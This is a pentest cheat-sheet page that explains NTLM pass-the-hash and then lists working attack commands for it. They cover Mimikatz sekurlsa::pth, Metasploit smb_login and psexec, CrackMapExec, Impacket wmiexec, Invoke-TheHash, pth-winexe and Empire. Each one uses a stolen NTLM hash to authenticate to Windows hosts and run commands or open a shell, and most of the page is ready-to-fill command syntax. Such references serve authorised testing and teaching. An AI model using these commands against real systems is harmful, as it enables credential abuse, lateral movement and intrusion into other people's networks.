 # How-To Pass-the-hash (PtH)
NetNTLM is a Windows challenge-response protocol that is mainly used where Kerberos is not supported. In NetNTLM, the server sends to the client a random 8-byte nonce as a challenge, and the client calculates a response that processes the challenge with the NTLM hash as the key, which is the MD4 hash of the user's password. Because the NTLM hash is the key to calculate the response, the victim's cleartext password is not required to authenticate, hence retrieving the NTLM hash is almost equivalent to stealing a plain text password.

You can use many many tools to perform PtH. The only required things are:
* A username (and its domain if not local...)
* Its NTLM hash

Do not forget to analyze the [password policy](PasspolAuditing.md), you could block accounts! Be smart...

## Mimikatz
### Original binary
```
mimikatz # sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<NTLM>
```

### Powershell version
```
PS C:\> Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<NTLM> /run:powershell.exe"'
```

## Metasploit
1. Testing credentials
```
msf > use auxiliary/scanner/smb/smb_login
msf auxiliary(smb_login) > set RHOSTS <hosts>
RHOSTS => <host>
msf auxiliary(smb_login) > set SMBDomain <domain>
SMBDOMAIN => <domain>
msf auxiliary(smb_login) > set SMBUser <user>
SMBUser => <user>
msf auxiliary(smb_login) > set SMBPass <LM>:<NTLM>
SMBPass => <LM>:<NTLM>
msf auxiliary(smb_login) > run
```
> If you were using msfconsole and stored your network scans within its database you could use
**services -p 445 -R** to to populate RHOSTS with every host with 445 open

2. Exploit
```
msf > use windows/smb/psexec
msf exploit(psexec) > set RHOST <host>
RHOST => <host>
msf exploit(psexec) > set SMBUser <username>
SMBUser => <username>
msf exploit(psexec) > set SMBPass <LM>:<NTLM>
SMBPass => <LM>:<NTLM>
msf exploit(psexec) > exploit
```
> You could also use **auxiliary/admin/smb/psexec_command**

## CrackMapExec
https://github.com/byt3bl33d3r/CrackMapExec
```
#~ crackmapexec <proto> <target(s)> [-d <domain>] -u <user> -H <NTLM>
```
> CME for Windows: https://github.com/maaaaz/CrackMapExecWin/wiki/How-to-compile-CrackMapExec-for-Windows

## Impacket
https://github.com/CoreSecurity/impacket/
* psexec.py
* smbexec.py
* wmiexec.py
* atexec.py
* dcomexec.py
* etc.

Example:
```
python wmiexec.py -hashes :<ntlm> <user>@<server>
```
> Impacket examples for Windows: https://github.com/maaaaz/impacket-examples-windows

## Invoke-TheHash
https://github.com/Kevin-Robertson/Invoke-TheHash
* Invoke-WMIExec
* Invoke-SMBExec
* Invoke-SMBEnum
* Invoke-SMBClient
* Invoke-TheHash

Example:
```
Invoke-WMIExec -Target <server> -Domain <domain> -Username <user> -Hash <NTLM> -Command <command_or_binary>
```

## pth-toolkit
* pth-net
* pth-rpcclient
* pth-smbclient
* pth-smbget
* pth-winexe
* pth-wmic
* pth-wmis
> pth-* uses the format <domain>/<user>%h<LM>:<NTLM>

Example:
```
pth-winexe -U <domain>/<user>%h<LM>:<NTLM> //<server> cmd.exe
```

## Empire
```
(Empire: <agent_name>) > pth <credID>
```
> Pass-the-hash through Invoke-Mimikaz's sekurlsa::pth function
